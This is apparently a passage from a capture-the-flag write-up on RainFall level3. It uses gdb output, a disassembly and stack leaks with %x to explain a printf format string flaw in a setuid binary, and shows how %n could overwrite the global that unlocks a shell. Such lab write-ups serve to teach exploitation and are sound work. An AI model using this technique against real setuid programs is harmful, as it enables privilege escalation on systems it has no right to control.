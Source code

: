 ```C
}
```

We can see that this time we have, an `fgets()` function instead of a `gets()` function, which is protected against *buffer overflow*, but the `printf()` is vulnerable against `format string` exploits. And also a global variable `m`, which is what determines if we can access the `system("/bin/sh")`.


### Permissions
As we can see in the permissions of the executable file, the binary `./level3` is executed with the privileges of the user **level4**, the owner of the file.
```bash
level3@RainFall:~$ ls -l level3 
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
```

## Reverse Engineer

After our input gets captured by the `fgets` function into the buffer, it prints it directly to the `printf` function as unique parameter `printf(buffer)`. This means that we can input format strings for printf and they will be executed.
```
Input:
AAAA %x %x %x %x %x %x %x %x

Breakpoint 1, 0x080484cc in v () # after the fgets call
(gdb) x/s $eax
0xbffff440:	 "AAAA %x %x %x %x %x %x %x %x\n"
(gdb) x/8xw $eax
0xbffff440:	0x41414141	0x20782520	0x25207825	0x78252078
0xbffff450:	0x20782520	0x25207825	0x78252078	0x0000000a
(gdb) continue
Continuing.

AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520
```
As we see here, the *input string* (or the *buffer*) is stored on the `EAX` register and when `printf` executes the *format specifiers* `%x`, retreiving values from the stack (as it doesn't have any parameter to retreive from), we can identify our *input string* `41414141 20782520 25207825 78252078 20782520` on the **4th** *format specifier* / *argument*.

There is one *format specifier* in `printf` that allow us to store the **number of characters** written so far, into the integer pointed to by the corresponding argument: `%n`. We can specify in which argument we want this **number of characters** to be stored in, by specifying it like this: `%<argumentNumber>$n`.

```bash
(gdb) set disassembly-flavor intel
(gdb) disassemble v
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x218
   0x080484ad <+9>:	mov    eax,ds:0x8049860
   0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:	lea    eax,[ebp-0x208]
   0x080484c4 <+32>:	mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    eax,[ebp-0x208]
   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    eax,ds:0x804988c
   0x080484df <+59>:	cmp    eax,0x40
```